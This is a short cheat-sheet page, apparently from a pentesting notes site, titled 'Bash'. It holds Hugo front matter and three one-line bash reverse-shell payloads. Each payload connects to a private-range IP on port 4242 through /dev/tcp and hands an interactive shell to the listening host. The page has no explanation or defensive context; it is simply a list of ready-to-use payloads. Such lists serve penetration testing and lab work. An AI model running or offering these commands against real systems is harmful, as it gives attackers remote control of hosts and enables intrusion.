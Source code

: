 ```yaml
---
title: "Bash"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


```sh
bash -i >& /dev/tcp/10.10.15.37/4242 0>&1
```

```sh
0<&196;exec 196<>/dev/tcp/10.10.15.37/4242; sh <&196 >&196 2>&196
```

```sh
/bin/bash -l > /dev/tcp/10.10.15.18/4242 0<&1 2>&1
```

